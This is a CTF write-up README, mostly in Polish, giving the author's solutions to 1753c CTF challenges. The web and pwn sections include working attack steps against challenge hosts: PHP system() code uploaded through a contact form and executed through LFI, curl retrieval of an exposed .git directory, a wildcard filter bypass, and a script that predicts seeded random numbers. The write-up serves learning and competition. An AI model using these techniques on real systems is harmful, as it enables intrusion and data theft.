




CTF organized by 1753c cybersecurity association. I managed to win this CTF, being the first person to solve all the challenges. Below are solutions for all the challenges. Because most of the solutions are relatively short, I put them all inside this README file.



Since CTF and all challenges were in Polish, solutions are also in Polish (sorry).

[PL]

## MISC

### Kontrola poczytalności

Kopiuj - wklej flagę z opisu zadania ;)

### Śmieszna maupa

Flaga ukryta w modelu 3D głowy małpy, aby znaleźć flagę należało ściągnać plik źródłowy monki.glb i odpalić go w dowolnym programie do edycji 3D (ja użyłem Blendera):

```html
<model-viewer bounds="tight" src="monki.glb" ar="" ar-modes="webxr scene-viewer quick-look" camera-controls="" environment-image="aircraft_workshop_01_1k.hdr" poster="poster.webp" shadow-intensity="1" exposure="0.45" data-js-focus-visible="" ar-status="not-presenting" class="">
      <div class="progress-bar hide" slot="progress-bar">
          <div class="update-bar" style="width: 100%;"></div>
      </div>
    </model-viewer>
```


### Śmieszne zagadki

Odpowiedź na zagadkę tworzyła numer telefonu. Po zadzwonieniu na ten numer otrzymywaliśmy flagę zakodowaną w hex nagraną na pocztę głosową

## OSINT

### Sekrecik

Flaga zapisana w rekordzie TXT domeny sekrecik.1753ctf.pl (uwaga nie wszystkie narzędzia poprawnie wyświetlały ten rekord co początkowo mnie zmyliło):

```
dig -t txt sekrecik.1753ctf.pl
;; QUESTION SECTION:
;sekrecik.1753ctf.pl.           IN      TXT

;; ANSWER SECTION:
sekrecik.1753ctf.pl.    300     IN      TXT     "MTc1M2N7c2lrYW1fbmFfc2llZHphY299"
```

Flaga zakodowana w base64 (do odkodowania można użyć cyberchefa albo dowolnego dekodera base64)

### Jak zostałem hackerem

Muszę przyznać, że to zadanie zadało mi sporo trudu dopóki nie zauważyłem ledwo widocznego logo DEFCON w prawym dolnym rogu. Wtedy już było łatwiej, wystarczyło przeszkoać filmiki ze starszych DEFCONów pod wzgledem słów kluczowych jak irc, gibson itd.



Ostatecznie, zapytanie które naprowadziło mnie na rozwiązanie to "defcon gibson". flaga byłą w najnowszym komentarzu pod następującym filmem: https://www.youtube.com/watch?v=fWk_rMQiDGc&ab_channel=DEFCONConference

## WEB

### Klikzarzutka

Aby dostać flagę, należało kliknać capcthe 10 000 razy, albo edytować odpowiednie zapytanie w Burp:



### Wyciek

Dostaliśmy starą wersję strony z kilkoma błędami. Niezbyt dużo czasu zajmowało znalezienie tam prostego LFI:



Niestety znalezienie flagi w ten sposób nie było trywialne. Jednak na stronie istniał również formularz kontaktowy, który pozwalał nam zapisywać pliki po stronei serwera. Łącząc te 2 podatności, mogliśmy uzyskać proste wykonanie kodu (RCE) i znaleźć flagę. Jako treść wiadomości wystarczyło podać kod php z komendą systemową:

```php
<?php
system('ls');
?>
```

Zapisany plik byłzwracany w postaci błędu: `Warning: Can't attach data from file: data/6225875d267b7.txt in /var/www/html/index.php on line 12`

Teraz wystarczyło wykorzystać LFI aby go wykonać:

`http://165.232.88.198/?page=data/6225875d267b7.txt`

W zwrotce dostawaliśmy listing katalogu:

`data home.html index.php kontakt.html logo.png onas.html this_is_the_file_containg_our_flag.txt zespol.html`

Po czym juz spokojnie mogliśmy odczytać flagę za pomocą LFI:

`http://165.232.88.198/?page=this_is_the_file_containg_our_flag.txt`

### Gildia Internetowych trolli

Nieco bardziej skomplikowane zadanie, wymagało trochę znajomości internalsów GITa. Szczerze nie jestem pewny czy zrobiłem je w najprostszy możliwy sposób i moze założone rozwiazanie było odrobine prostsze.

W opisie zadania dostawaliśmy link do storny na której byłą flaga ale w formie ocenzurowanej i log z DirBustera, który dawał nam jeden katalog: 

`https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD`

To pokazywało nam, ze jest tam dostepne repozytorium GIT. Wiedząc, że mamy doczynienia z gitem, mogliśmy siędomyślić, że w zadaniu chodzi o znalezienie poprzedniej wersji strony w repozytorium. Jednak próby zwykłego sklonowania repo kończyły się kodem 403 (przynajmniej w moim wypadku). Natomiast mogliśmy uzyskiwać dostęp do poszczególnych obiektów w podkatalogu .git. 

Aby wiedzieć jak odczytać dane z tego podkatalogu, trzeba mieć troche wiedzy o tym jak działa git. Sam nie jestem ekspertem z tego zakresu, wiecp olecam przeczytać ten artykuł, który naprowadził mnie na rozwiązanie: https://matthew-brett.github.io/curious-git/git_object_types.html

Generalnie w `https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD` mamy referencje do ostatniego obiektu typu commit:

```
curl https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD
ref: refs/heads/master
```

Wykonując następujące zapytanie, możemy znaleźć hash tego obiektu:

```
curl https://1753ctf.ams3.digitaloceanspaces.com/g/.git/refs/heads/master
795727cd49e0c4f49581151c9ec6bd856650f842
```

Jak jednak znaleźć inne obiekty i commity? Wszystkie obiekty w gicie są zapisywane w katalogu objects w dwuliterowych podkatalogach, będących pierwszym bajtem sumy kontrolnej obiekty. Znaczy to, ze obiekt 795727cd49e0c4f49581151c9ec6bd856650f842 będzie zapisany jako `.git\objects\79\5727cd49e0c4f49581151c9ec6bd856650f842`

Na początek stwórzmy sobie nowe repozytorium na dysku i skopiujmy ten obiekt do odpowiedniego katalogu:

```
$ mkdir trol
$ cd trol
$ git init
$ cd objects
$ mkdir 79
$ curl --output "79/5727cd49e0c4f49581151c9ec6bd856650f842" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/79/5727cd49e0c4f49581151c9ec6bd856650f842
```

Teraz majac ściągniety odpowiedni obiekt, mozemy go odczytać. Jest on w formie binarnej, wiec zwykły cat nie dużo nam da, ale mozemy użyć komendy `git cat-file -p 795727cd49e0c4f49581151c9ec6bd856650f842` która pozwoli nam odczytać zawartosć tego pliku:

```
$ git cat-file -p 795727cd49e0c4f49581151c9ec6bd856650f842
tree bb267f6a5f9435055601fd827b9d863fa50374be
parent e5c87aa73fcb1536dddfede926583ef2e0c83f9d
author Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961948 +0100
committer Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961948 +0100

stylowanko
```

Mamy tu kilka ważnych informacji, przede wszystkim widzimy hash obiektu typu "tree" powiązanego z tym commitem, po drugie widzimy parent commit. Oprócz tego mamy informacje o autorze i komentarz do danego commita.

Powtózmy wiec proces wypracowany wcześniej aby odczytać zawartosć obiektu typu tree:

```
$ mkdir bb
$ curl --output "bb/267f6a5f9435055601fd827b9d863fa50374be" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/bb/267f6a5f9435055601fd827b9d863fa50374be
$ git cat-file -p bb267f6a5f9435055601fd827b9d863fa50374be
100644 blob 9930221ea79d7877c2b143675f2999080c21e116    index.html
```

W efekcie dostajemy hash obiektu typu blob, który zawiera już dane naszego pliku wrzuconego na gita, reiterując poprzedni proces mozemy wyświetlić zawartosć tego pliku:

```
$ mkdir 99
$ curl --output "99/30221ea79d7877c2b143675f2999080c21e116" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/99/30221ea79d7877c2b143675f2999080c21e116
$ git cat-file -p 9930221ea79d7877c2b143675f2999080c21e116
<h1>Flaga w tym zadaniu to 1753c{***********}</h1>
```

Dostaliśmy więc zawartosć pliku z obecnego commita, czyli de facto to samo co możemy zobaczyć na stronie. Jak wiec znaleźc poprzednie wersje pliku? Pamiętacie obiekt parent w naszym commicie? Otóż jest to hash poprzedniego commita, w ten sposób reiterujac nasz proces możemy sprawdzić zawartosc poprzednich commitów. Mozemy też pójść na skróty i wylistować wszystkie commity wraz z ich rodzicami za pomocą logów GIT dostępnych w katalogu logs:

```
$ curl https://1753ctf.ams3.digitaloceanspaces.com/g/.git/logs/refs/heads/master
0000000000000000000000000000000000000000 e9129429abef9b6a7506582931ac0fee0235ca74 Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961890 +0100     commit (initial): init
e9129429abef9b6a7506582931ac0fee0235ca74 e5c87aa73fcb1536dddfede926583ef2e0c83f9d Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961931 +0100     commit: poprawka
e5c87aa73fcb1536dddfede926583ef2e0c83f9d 795727cd49e0c4f49581151c9ec6bd856650f842 Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961948 +0100     commit: stylowanko
```

W ten sposób mozemy pominać kroki posrednie i znajdowanie commitów iteracyjne i powtórzyc nasz proces od razu dla pierwszego commita (e9129429abef9b6a7506582931ac0fee0235ca74):

```
$ mkdir e9
$ curl --output "e9/129429abef9b6a7506582931ac0fee0235ca74" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/e9/129429abef9b6a7506582931ac0fee0235ca74
$ git cat-file -p e9129429abef9b6a7506582931ac0fee0235ca74
tree 773f7fd7e46604f6f2ade32da95517a61f9ee2b0
$ mkdir 77
$ curl --output "77/3f7fd7e46604f6f2ade32da95517a61f9ee2b0" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/77/3f7fd7e46604f6f2ade32da95517a61f9ee2b0
$ git cat-file -p 773f7fd7e46604f6f2ade32da95517a61f9ee2b0
100644 blob 1d4d19e62c15d19fc856f32cce895bea5a33eeee    index.html
$ mkdir 1d
$ curl --output "1d/4d19e62c15d19fc856f32cce895bea5a33eeee" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/1d/4d19e62c15d19fc856f32cce895bea5a33eeee
$ git cat-file -p 1d4d19e62c15d19fc856f32cce895bea5a33eeee
Flaga w tym zadaniu to 1753c{to_tylko_do_testu_zaraz_to_usune}
```

I mamy naszą flagę!

## CRYPTO

### Szymfr

Pierwsze zadanie to szyfr podstawieniowy: https://en.wikipedia.org/wiki/Substitution_cipher

Jest kilka stron, które pomogą automatycznei rozwiazać szyfr podstawieniowy. Ja skorzystałem z tej: https://www.guballa.de/substitution-solver

### Scrypto

Drugie zadanie to prosta obfuskacja gdzie w pętli for do wartosci bajtowej znaku dodawana jest wartość licznika pętli. Prosty skrypt odwracajacy to działanie pozwala nam odzyskać flagę:

```python
f = open("enc.bin","rb")
enc = f.read()

flag=""
for i in range(0,len(enc)):
    d = (enc[i] - i) % 256
    flag = flag + chr(d)

print(flag)
```

## PWN

### Egzamin z angielskiego

W zadaniu mamy prosty program z filtrem nie pozwalającym nam wylistować zawartosci pliku flag.txt bezpośrednio, ale mogliśmy listować zawartość innych plików. Niezamierzone (potwierdozne przez autora) rozwiązanie tego zadania jest bardzo proste, wystarczy wpisać w konsoli:

`fl?g.txt`

Zastępujac jeden ze znaków pliku znakiem zapytania, który w powłoce linuxowej jest znakiem typu wildcard zastępujacą pojedynczy znak. Pozwala nam to ominąć filtr i wyświetlić zawartosć pliku.

Zamierzone rozwiazanie było prawdopodobnie minimalnie cięższe.

### Kontrola umysłu

Dostajemy plik źródłowy skryptu pythona działajacego po stronie serwera, zadanie polegan a przewidzeniu kolejnej wylosowanej liczby.

Zadanie wykorzystujące fakt, że algorytmy pseudolosowe w komputerach wygenerują zawsze tę samą wartość "losową" kiedy podamy im ten sam seed (wartość wstępną). Zadanie jest o tyle proste, że seed jest nam bezpośrednio podawany przez serwer, więc możemy w bardzo prosty sposób obliczyć kolejną wartosć, po prostu wykonując operację randint na tym samej wartości seed. Jedyne utrudnienie polega na fakcie, że odpowiedź należy podać w czasie ponięzej 1 sekundy, inaczej dostaniemy komunikat, że byliśmy za wolni. To znaczy, ze komunikację z serwerem musimy sobie oskryptować. Prosty skrypt w pythonie rozwiazujący to zadanie poniżej:

```python
import socket
import sys
import re
import select
import random

def main():
    MAX = 999999
    server_address = ("159.223.14.19", 30302)

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('connecting to %s port %s' % server_address, file=sys.stderr)
    sock.connect(server_address)
    data = socket_receive(sock)
    print(data)
    game = int(re.search(r"[0-9]{1,6}",data.decode("utf-8")).group(0),10)
    random.seed(game)
    number = random.randint(0, MAX)
    data = (str(number) + "\n").encode()
    socket_send(sock, data)
    data = socket_receive(sock).decode("utf-8")
    print(data)
    sock.close()


def socket_receive(sock):
    data = b''
    try:
        amount_expected = 4096
        ready = select.select([sock], [], [], 2)
        data = sock.recv(amount_expected)
    finally:
        return data

def socket_send(sock, data):
    try:
        sock.send(data)
    except:
        print("Couldn't send data")


if __name__ == "__main__":
    main()
```